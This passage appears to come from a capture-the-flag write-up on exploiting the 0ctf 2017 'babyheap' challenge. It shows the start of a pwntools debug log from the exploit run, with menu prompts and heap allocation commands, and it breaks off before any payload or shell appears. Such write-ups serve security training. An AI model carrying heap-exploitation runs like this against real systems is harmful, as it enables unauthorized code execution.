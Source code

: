 # Running the exploit
Putting it all together, we pop a shell:
``` Python LOG
  io.recvuntil("Command:")
[DEBUG] Received 0x53 bytes:
    b'===== Baby Heap in 2017 =====\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:31: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("1")
[DEBUG] Sent 0x2 bytes:
    b'1\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:32: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(size))
[DEBUG] Sent 0x3 bytes:
    b'40\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:")
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 0\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'152\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 1\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'152\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 2\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'152\n'
[DEBUG] Received 0x4c bytes:
```